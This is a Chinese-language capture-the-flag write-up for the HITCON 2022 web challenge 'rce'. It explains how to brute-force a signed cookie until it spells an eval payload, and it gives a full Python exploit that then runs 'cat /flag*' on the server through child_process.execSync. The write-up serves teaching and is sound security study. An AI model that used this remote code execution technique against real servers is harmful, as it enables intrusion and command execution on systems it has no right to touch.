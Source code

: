 ::: info
2022-HitCon-Web-rce
:::

# 1、思路

本地部署：`npm install`，`node app.js`（⚠️：端口占用时修改监听端口）

（1）`Dockerfile` 保存 flag到文件中，生成一个随机的文件名，该文件名以 `/flag-` 开头，后接 32 字节的随机数据的 SHA1 哈希值

```dockerfile
RUN echo "hitcon{REDACTED}" > "/flag-$(head -c 32 /dev/random | sha1sum | cut -d ' ' -f 1 | tr -d '\n')"
```

（2）`index.html` 当点击按钮时，执行代码

- `progress.max = 40;`：设置进度条的最大值为40。
- `RCE.disabled = true;`：禁用名为“RCE”的按钮，防止用户重复点击。
- `while (true) {...}`：无限循环，直到条件被破坏。
- `const data = await fetch("/random").then(r => r.json());`：从服务器获取数据，该数据是从 `/random` 端点获取的 JSON 格式数据。使用 `fetch` 函数发送 HTTP 请求，然后将响应转换为 JSON 格式。
- `progress.value = data.progress;`：将获取到的数据中的进度值设置为进度条的当前值。
- `if (data.result !== null) {...}`：如果获取到的数据中的结果不为 null，表示已经获取到了最终结果。
- `document.querySelector('.window-body').innerHTML = '<h3>' + data.result + '</h3>';`：将获取到的结果显示在网页中，具体显示在类名为 `window-body` 的 HTML 元素中，使用 `<h3>` 标签包裹，以确保以标题的形式显示。
- `break;`：跳出循环，停止继续执行。

```html
    <script>
        RCE.onclick = async () => {
            progress.max = 40;
            RCE.disabled = true;
            while (true) {
                const data = await fetch("/random").then(r => r.json());
                progress.value = data.progress;
                if (data.result !== null) {
                    document.querySelector('.window-body').innerHTML = '<h3>' + data.result + '</h3>';
                    break;
                }
            }
        }
    </script>
```

（3）`app.js` 中 `eval(code)` 会评估或者执行参数 code，`Buffer.from()` 方法用于创建包含指定字符串、数组或缓冲区的新缓冲区，因此 code 来自 `req.signedCookies.code`，Express 通过 `res.cookie` 设置 cookie 并返回 eval(code) 的结果值，**如果 cookie 的长度不足 40 位 16 进制即 20 字节，就会随机生成一位 16 进制直至达到 20 字节**，因此插入的恶意代码需要是 20 字节

```js
app.get('/', function (_, res) {
    res.cookie('code', '', { signed: true })
        .sendFile(__dirname + '/index.html');
});

app.get('/random', function (req, res) {
    let result = null;
    if (req.signedCookies.code.length >= 40) {
        const code = Buffer.from(req.signedCookies.code, 'hex').toString();
        try {
            result = eval(code);
        } catch {
            result = '(execution error)';
        }
        res.cookie('code', '', { signed: true })
            .send({ progress: req.signedCookies.code.length, result: `Executing '${code}', result = ${result}` });
    } else {
        res.cookie('code', req.signedCookies.code + randomHex(), { signed: true })
            .send({ progress: req.signedCookies.code.length, result });
    }
});
```

# 2、设置 cookie

## 20 字节恶意代码

`req.query` 用在 get 请求当中，`req.body` 是用在 post 请求中的

`req.query.xxx` 让我们能够路由到 `/random?xxx=

- `eval(req.query.qqq);`

由于 20 字节需要转换为 16 进制，所以 `eval(req.query.qqq);` => `6576616c287265712e71756572792e717171293b`

## cookie 格式

```python
s = requests.get(url="http://challenge-9591aa6dad50d3ca.sandbox.ctfhub.com:10800")
print(s.headers["Set-Cookie"])
// code=s%3A.2iFEryA%2BlXkG5krFOVq9H%2F4Pyh2DTm0ynvM%2BucCDHQM; Path=/
```

但 `requests.get` 中的 cookies 参数是 dict，因此需要满足格式 `{'code': '', 'Path': '/'}`，其中 code 的格式是在 s%3A 后面逐渐加随机数的，. 后面为其它数据

```python
def process_cookie(text):
    pairs = text.split('=')
    cookie_dict: dict = {
        'code': pairs[1].split(';')[0],
        'Path': '/'
    }
    return cookie_dict
```

保存每次的 cookie 循环访问 /random 以增加至 40 位 16 进制，并确保与恶意代码逐字一致（取最新生成的一位，即 . 前一位），因此至多遍历 16 $\times$ 40 次

```python
def get_cookie(text):
  return text.split('.')[0][-1]


url = "http://challenge-9591aa6dad50d3ca.sandbox.ctfhub.com:10800/random"
cookies = process_cookie(s.headers["Set-Cookie"])

insert = "6576616c287265712e71756572792e717171293b"  # eval(req.query.qqq);
i = 0
while i < len(insert):
  s = request.get(url=url, cookies=cookies)
  if get_cookie(s.headers["Set-Cookie"]) == insert[i]:
    cookies = s.headers["Set-Cookie"]
    i = i + 1
```

## 执行系统命令

Node.js 中使用 child_process 模块执行系统命令，并将结果转换为字符串

```python
command = 'require("child_process").execSync("cat /flag*").toString()'
s = requests.get(url=url+f"?qqq={command}",cookies=cookies)
print(s.text)
```

# 3、exp

```python
import requests


def get_cookie(text):
    return text.split('.')[0][-1]


def process_cookie(text):
    pairs = text.split('=')
    cookie_dict: dict = {
        'code': pairs[1].split(';')[0],
        'Path': '/'
    }
    return cookie_dict


s = requests.get(url="http://challenge-9591aa6dad50d3ca.sandbox.ctfhub.com:10800")
cookies = process_cookie(s.headers["Set-Cookie"])

url = "http://challenge-9591aa6dad50d3ca.sandbox.ctfhub.com:10800/random"
insert = "6576616c287265712e71756572792e717171293b"  # eval(req.query.qqq);
i = 0
while i < len(insert):
    s = requests.get(url=url, cookies=cookies)
    if get_cookie(s.headers["Set-Cookie"]) == insert[i]:
        cookies = process_cookie(s.headers["Set-Cookie"])
        print(cookies)
        i = i + 1

command = 'require("child_process").execSync("cat /flag*").toString()'
s = requests.get(url=url+f"?qqq={command}",cookies=cookies)
print(s.text)
```

